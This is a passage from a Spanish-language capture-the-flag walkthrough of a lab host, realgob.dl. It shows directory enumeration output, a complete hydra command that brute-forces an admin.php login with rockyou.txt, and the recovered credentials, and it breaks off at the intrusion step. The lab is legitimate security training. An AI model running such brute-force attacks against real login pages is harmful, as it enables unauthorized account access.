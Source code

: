 ```css
/important.txt        (Status: 200) [Size: 1818]
/registro.php         (Status: 200) [Size: 2445]
/desarrollo           (Status: 301) [Size: 313] [--> http://realgob.dl/desarrollo/]
Progress: 147693 / 882240 (16.74%)
===============================================================
Finished
===============================================================
```

Al parecer tenemos un `admin.php`, el cual si vamos desde el navegador veremos lo siguiente:

![admin](./images/Report/img/admin.png)

Como vemos tenemos un panel de inicio de sesión, sabiendo esto podríamos intentar usar `hydra` para hacer fuerza bruta y ver si obtenemos la contraseña:

```css
hydra -l admin -P /opt/rockyou.txt realgob.dl http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos."
```

![hydra](./images/Report/img/hydra.png)

como vemos, hemos obtenido la contraseña, "admin:admin123" (para obtenerla hay que esperar bastante ya que se encuentra en la línea 90006).

## INTRUSIÓN

Ahora estando dentro de "cargas.php", veremos lo siguiente:
